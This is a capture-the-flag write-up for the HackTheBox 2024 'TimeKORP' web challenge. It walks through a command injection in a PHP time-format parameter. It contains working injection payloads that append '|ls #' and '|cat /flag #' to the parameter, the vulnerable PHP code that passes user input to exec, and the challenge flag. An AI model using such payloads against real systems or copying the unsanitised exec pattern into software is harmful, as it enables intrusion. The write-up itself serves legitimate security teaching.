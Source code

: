 ```yaml
---
name: TimeKORP (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for TimeKORP (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# TimeKORP

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=99 "HackTheBox Cyber Apocalypse '24: Time KORP (web)")

## Description

> TBD

## Solution

First things first; download the source and run the local docker instance for easy/fast debugging.

It's also a good idea to check the site functionality before reviewing the source code so that things fall into place more easily.

The site displays the time (`http://127.0.0.1:1337/?format=%H:%M:%S`) or date (`http://127.0.0.1:1337/?format=%Y-%m-%d`).

Opting for the lazy route, I check the burp scanner and find some interesting results. The first is XSS (reflected), presumably not much use as there was no admin bot to submit a URL to. The second is command injection 👀

Here's the URL-decoded [PoC](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23'%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23%7c%22%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23) from burp:

```
/?format=%H:%M:%S|echo kefbjki4ag d6tyxfigki||a #' |echo kefbjki4ag d6tyxfigki||a #|" |echo kefbjki4ag d6tyxfigki||a #
```

The result indicates that the `echo kefbjki4ag d6tyxfigki` command did indeed execute.

```html
</span> kefbjki4ag d6tyxfigki<span class='text-muted'>.</span>
```

The payload syntax/length is a little confusing so I keep removing elements and re-testing to ensure the command still executes. The attack can be simplified to:

```
/?format=%H:%M:%S' |ls #
```

If we [URL-encode it](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|ls+%23) it lists the `views` directory. If we look around for a while we might not see the flag. Let's just check the source code and see the Dockerfile has the following line.

```dockerfile
# Copy flag
COPY flag /flag
```

Therefore, we can print the flag with [this payload](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|cat+/flag+%23) to retrieve the flag.

```
/?format=%H:%M:%S' |cat /flag #
```

We've already solved the challenge but why not review the vulnerable source code. Notice `TimeController.php` processes our vulnerable GET parameter (`format`).

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

It passes our user input (🚫) to the `TimeModel.php` constructor which then executes the command.

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

So, assuming we submit `format=%H:%M:%S' |cat /flag #`, the `command` property of the object will be:

```bash
date '%H:%M:%S'' |cat /flag # 2>&1
```

Due to us closing off the string and inserting a pipe character, we were able to inject a malicious command! Crucially, we also needed to add a hash character afterwards, to prevent the output from being redirected.

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
